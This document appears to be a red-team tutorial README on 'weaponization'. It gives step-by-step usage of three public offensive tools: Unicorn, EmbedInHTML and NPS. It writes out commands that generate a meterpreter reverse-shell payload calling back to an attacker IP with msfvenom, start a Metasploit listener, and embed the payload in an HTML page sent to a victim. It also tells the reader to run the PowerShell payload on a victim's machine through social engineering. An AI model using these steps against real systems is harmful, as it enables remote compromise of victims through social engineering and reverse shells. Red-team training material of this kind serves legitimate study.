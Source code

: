 # Red Teaming Squad : Weaponization

Weaponization consists of techniques that result in adversary-controlled code running on a local or remote system. Techniques that run malicious code are often paired with techniques from all other tactics to achieve broader goals, like exploring a network or stealing data. For example, an adversary might use a remote access tool to run a PowerShell script that does Remote System Discovery. Most of these techniques do not require a Tool but just access and Native Tools from the Windows Machine itself one of the reasons we want to use.


## Unicorn

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/trustedsec/unicorn
```

<kbd>![](Weaponization/1.png)</kbd>

### Usage

Usage is simple, just run Magic Unicorn (ensure Metasploit is installed if using Metasploit methods and in the right path) and magic unicorn will automatically generate a powershell command that you need to simply cut and paste the powershell code into a command line window or through a payload delivery system. Unicorn supports your own shellcode, cobalt strike, and Metasploit.

Here we are using windows/meterpreter/reverse_tcp payload to get the reverse shell because our target system has Windows Operating System.

<kbd>![](Weaponization/2.png)</kbd>

Now this will give us two files. One is a text file named “powershell_attack.txt” which has the PowerShell code that will be run in the victim’s machine using social engineering and the other is “unicorn.rc” which is a custom Metasploit file that will automatically set all the parameters and start a listener.

<kbd>![](Weaponization/3.png)</kbd>

We need to run the Metasploit “unicorn.rc” file using ```msfconsole -r unicorn.rc``` command which will setup our listener.

<kbd>![](Weaponization/4.png)</kbd>

Now execute the powershell command through powershell using any social engineering technoque.

<kbd>![](Weaponization/5.png)</kbd>

Once the PowerShell code will be executed in the victim’s powershell command promt, you will see a meterpreter session of your victim. 

<kbd>![](Weaponization/6.png)</kbd>

For more use cases, you can use ```python unicorn.py --help``` command or you can visit this [URL](https://github.com/trustedsec/unicorn).


## EmbedInHTML

EmbedInHTML tool will take a file (any type of file) as input, encrypt it, and embed it into an HTML file as resource, along with an automatic download routine simulating a user clicking on the embedded resource. When the user browses the HTML file, the embedded file is decrypted on the fly, saved in a temporary folder, and the file is then presented to the user as if it was being downloaded from the remote site.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/Arno0x/EmbedInHTML
```

<kbd>![](Weaponization/7.png)</kbd>

### Usage

Here I am creating a shell.exe file using ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker's_IP> LPORT=<Listening_Port> -f exe > shell.exe``` to embed in an HTML page.

<kbd>![](Weaponization/8.png)</kbd>

Use ```python embedInHTML.py -k <Your_Secret_Key> -f <Payload_Filename> -o index.html``` command which will generate the index.html file in output directory. Now you can move the file to your /var/www/html/ directory and send the URL to victim.

<kbd>![](Weaponization/9.png)</kbd>

Whenever victim will visit the URL, your payload will be downloaded into victim's computer.

<kbd>![](Weaponization/10.png)</kbd>

For more use cases, you can use ```python embedInHTML.py -h``` command or you can visit this [URL](https://github.com/Arno0x/EmbedInHTML).


## NPS (NotPowerShell)

NPS is a windows executable file which allows attacker to use powershell commands through ```cmd.exe```.

### Usage

Download from this [Link](https://github.com/Ben0xA/nps/blob/master/binary/nps.zip).

<kbd>![](Weaponization/11.png)</kbd>

Now use ```nps.exe <Any_Powershell_command>``` command to execute the powershell command in victim's ```cmd.exe```.

<kbd>![](Weaponization/12.png)</kbd>

You can use ```;``` to execute two or more powershell commands in single command.

<kbd>![](Weaponization/13.png)</kbd>

For more use cases, you can visit this [URL](https://github.com/Ben0xA/nps).
